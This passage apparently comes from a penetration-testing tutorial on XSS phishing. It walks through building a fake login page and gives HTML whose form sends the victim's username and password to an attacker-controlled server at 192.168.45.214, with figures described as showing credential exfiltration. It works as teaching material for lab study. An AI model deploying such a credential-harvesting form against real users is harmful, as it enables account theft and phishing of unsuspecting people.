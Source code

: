 <figure><img src="../../../../.gitbook/assets/web_xss_phising_2.png" alt=""><figcaption><p>Figure 4: Exfiltrating user credentials via a phishing attack.</p></figcaption></figure>

## Phishing Users (2)

This time the application does not have its own login page, so we will have to create one and redirect the target user to it. We can find boilerplate HTML login form code, such as [this](https://www.w3schools.com/howto/howto\_css\_login\_form.asp), and remove the unecessary parts for simplicity. We will need to change the `action` and `method` atrributes of the `form` element so that it sends a `GET` request to our malicious server.

{% code title="login.html" %}
```html
<!-- the action to perform -->
<form action="http://192.168.45.214/login" method="get">

  <div class="container">
    <!-- a label and input field pair for entering a username. -->
    <label for="uname"><b>Username</b></label>
    <input type="text" placeholder="Enter Username" name="uname" required>
    <!-- a label and input field pair for entering a password. -->
    <label for="psw"><b>Password</b></label>
    <input type="password" placeholder="Enter Password" name="psw" required>
    
    <!-- the submit button -->
    <button type="submit">Login</button>
  </div>

</form>
```
{% endcode %}

If we spin up an HTTP server and test our script, we can see that it is working as intended (Figure 5).

<figure><img src="../../../../.gitbook/assets/web_xss_phising_3.png" alt=""><figcaption><p>Figure 5: Testing the <code>login.html</code> file.</p></figcaption></figure>
